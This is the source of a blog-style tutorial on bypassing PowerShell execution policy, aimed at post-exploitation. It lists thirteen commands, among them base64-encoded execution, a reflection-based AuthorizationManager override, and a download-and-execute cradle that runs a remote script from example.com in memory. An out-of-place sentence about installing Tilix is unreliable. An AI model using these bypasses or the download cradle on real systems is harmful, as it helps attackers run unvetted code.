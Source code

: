 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>

PowerShell is an essential component of any Windows environment and can be a powerful tool in the hands of a hacker. During post-exploitation, PowerShell scripts can make privilege escalation and pivoting a breeze, but its execution policy can put a damper on even the best-laid plans. There are a variety of methods, however, that can be used to bypass PowerShell execution policy.

<h3><b>PowerShell Execution Policy Overview</b></h3>
The purpose of PowerShell's execution policy is to control how configuration files are loaded and how scripts are run. It's a safety feature that helps prevent malicious scripts from being executed. Policies can be set at the computer level, user level, and session level on Windows machines. It's important to note that the execution policy is not meant to be secure — it merely prevents users from unintentionally causing damage. As we'll soon find out, it can be bypassed in several ways.

There are seven types of execution policies in PowerShell. These are only enforced on Windows machines:

Unrestricted: This is the default policy for non-Windows machines; it means scripts will be run with a warning.
Restricted: This is the default for Windows machines; it prevents scripts from being run but allows individual commands.
Bypass: This means all scripts can run and there are no warnings.
AllSigned: This requires all scripts and configuration files to be signed by a trusted publisher — even those created on the local machine.
RemoteSigned: This is the default policy on Windows servers; requires a signature only from files downloaded from the internet.
Default: This simply sets the default execution policy.
Undefined: This is when there is no policy set in the current scope. If all scopes are Undefined, the execution policy defaults to Restricted. 

To view the current execution policy, issue the following command in PowerShell:


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h4><b>Step 1: Bypass Flag </b></h4>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}

